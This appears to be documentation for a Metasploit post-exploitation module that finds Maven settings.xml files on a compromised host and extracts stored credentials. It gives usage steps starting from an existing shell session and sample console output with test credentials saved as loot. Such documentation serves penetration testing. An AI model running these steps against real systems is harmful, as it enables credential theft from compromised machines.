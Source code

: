## Vulnerable Application

[Maven](https://maven.apache.org/) a software project management.
This module seeks all settings.xml (Maven configuration file) on the target file system to extract credentials from them.

This module was successfully tested against:

- Ubuntu 14.04 and Maven 3.0.5
- Debian 9 and Maven 3.0.5

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/maven_creds```
  3. Do: ```set SESSION [SESSION_ID]```
  4. Do: ```run```
  5. If the system has readable configuration files (settings.xml) containing username and passwords, they will be printed out.

## Scenarios

### Ubuntu 14.04 and Maven version 3.0.5

```
msf post(maven_creds) > run

[*] Finding user directories
[*] Unix OS detected
[*] Looting 19 files
[*] Downloading /home/user/settings.xml
[*] Reading settings.xml file from /home/user/settings.xml
[*] Collected the following credentials:
[*]     Id: server-nexus
[*]     Username: deploynexus
[*]     Password: password
[+] Saved credentials to /home/user/.msf4/loot/20170814145812_default_127.0.0.1_maven.credential_351922.txt

msf post(maven_creds) > loot

Loot
====

host       service  type                name          content     info                                                                           path
----       -------  ----                ----          -------     ----                                                                           ----
127.0.0.1           maven.credentials   settings.xml  text/plain  Maven credentials from /home/user/settings.xml and id server-nexus             /home/user/.msf4/loot/20170814145812_default_127.0.0.1_maven.credential_351922.txt

